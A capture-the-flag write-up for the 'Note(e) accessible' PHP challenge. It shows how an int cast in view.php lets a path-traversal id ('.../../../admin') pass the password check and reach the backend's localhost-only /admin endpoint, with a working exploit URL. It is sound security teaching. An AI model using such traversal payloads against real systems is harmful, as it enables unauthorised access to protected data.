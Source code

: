 # Note(e) accessible

## Challenge

We love notes. They make our lifes more structured and easier to manage! In 2018 everything has to be digital, and that's why we built our very own note-taking system using micro services: Not(e) accessible! For security reasons, we generate a random note ID and password for each note.

Recently, we received a report through our responsible disclosure program which claimed that our access control is bypassable...

```
http://35.207.120.163
```

Difficulti estimate: Easy-Medium


## Solution

From the HTML source code of the provided URL you'll get a hint in a comment to an accessible archive
with the source code.
The source code can be found in `src`.

When looking at the source we notice that the flag we want to capture is accessible from the
backends `/admin` endpoint.
Unfortunately, all backend endpoints are only accessible from localhost and we therefore need the frontend
to access it.

The `frontend/index.php` source looks secure enough.
However, the `frontend/view.php` were the code resides to read a note, the note id provided by the user isn't
validated enough.
This `id` is used directly to check for existence and read a file on the local file system.
In these two cases the `id` is casted to an `int` like the following:

```php
"./pws/" . (int) $id . ".pw"
```

When casting with `(int)` PHP casts everything which is a digit from the beginning of the string.
It doesn't care about anything after the digit in that string.
That's a problem when looking how the note file is read:

```php
echo file_get_contents($BACKEND . "get/" . $id);
```

Having this in mind we can create a note using the provided HTML form.
Remember the `id` and inject it in the `view.php` like this:

```
http://35.207.120.163/view.php?id=3691017393700169359/../../admin&pw=4216455ceebbc3038bd0550c85b6a3bf
```

You'll notice the malicious `id` GET parameter `3691017393700169359/../../admin`.
PHP will evalute the `id` like the following when checking for the file:

```php
"./pws/3691017393700169359.pw"
```

but like this when reading the file:

```php
echo file_get_contents($BACKEND . "get/3691017393700169359/../../admin);
```

... which is a problem because that actually accesses the backends `/admin` endpoint. :tada:

